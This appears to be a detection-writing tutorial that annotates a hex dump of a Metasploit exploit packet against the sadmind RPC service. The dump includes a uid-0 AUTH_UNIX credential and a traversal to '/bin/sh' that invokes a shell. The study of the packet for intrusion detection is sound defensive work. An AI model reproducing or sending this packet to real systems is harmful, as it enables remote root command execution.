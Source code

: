 \documentclass[english]{report}
\begin{document}
\begin{verbatim}
89 09 9c e2 00 00 00 00 00 00 00 02 00 01 87 88  ................
00 00 00 0a 00 00 00 01 00 00 00 01 00 00 00 20  ...............
40 28 3a 10 00 00 00 0a 4d 45 54 41 53 50 4c 4f  @(:.....metasplo
49 54 00 00 00 00 00 00 00 00 00 00 00 00 00 00  it..............
00 00 00 00 00 00 00 00 40 28 3a 14 00 07 45 df  ........@(:...e.
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
00 00 00 00 00 00 00 06 00 00 00 00 00 00 00 00  ................
00 00 00 00 00 00 00 04 00 00 00 00 00 00 00 04  ................
7f 00 00 01 00 01 87 88 00 00 00 0a 00 00 00 04  ................
7f 00 00 01 00 01 87 88 00 00 00 0a 00 00 00 11  ................
00 00 00 1e 00 00 00 00 00 00 00 00 00 00 00 00  ................
00 00 00 00 00 00 00 3b 4d 45 54 41 53 50 4c 4f  .......;metasplo
49 54 00 00 00 00 00 00 00 00 00 00 00 00 00 00  it..............
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
00 00 00 00 00 00 00 06 73 79 73 74 65 6d 00 00  ........system..
00 00 00 15 2e 2e 2f 2e 2e 2f 2e 2e 2f 2e 2e 2f  ....../../../../
2e 2e 2f 62 69 6e 2f 73 68 00 00 00 00 00 04 1e  ../bin/sh.......
<snip>
\end{verbatim}

Let's break this up, describe each of the fields, and figure out
how to write a rule to catch this exploit.  


There are a few things to note with RPC:
\begin{itemize}
\item Numbers are written as uint32s, taking four bytes.  The number 26 would show up as 0x0000001a.
\item Strings are written as a uint32 specifying the length of the string, the string, and then null bytes to pad the length of the string to end on a 4 byte boundary.  The string ``bob'' would show up as 0x00000003626f6200.
\end{itemize}

\begin{verbatim}
89 09 9c e2     - the request id, a random uint32, unique to each request
00 00 00 00     - rpc type (call = 0, response = 1)
00 00 00 02     - rpc version (2)
00 01 87 88     - rpc program (0x00018788 = 100232 = sadmind)
00 00 00 0a     - rpc program version (0x0000000a = 10)
00 00 00 01     - rpc procedure (0x00000001 = 1)
00 00 00 01     - credential flavor (1 = auth\_unix)
00 00 00 20     - length of auth\_unix data (0x20 = 32

## the next 32 bytes are the auth\_unix data
40 28 3a 10 - unix timestamp (0x40283a10 = 1076378128 = feb 10 01:55:28 2004 gmt)
00 00 00 0a - length of the client machine name (0x0a = 10)
4d 45 54 41 53 50 4c 4f 49 54 00 00  - metasploit

00 00 00 00 - uid of requesting user (0)
00 00 00 00 - gid of requesting user (0)
00 00 00 00 - extra group ids (0)

00 00 00 00     - verifier flavor (0 = auth\_null, aka none)
00 00 00 00     - length of verifier (0, aka none)
\end{verbatim}
\end{document}
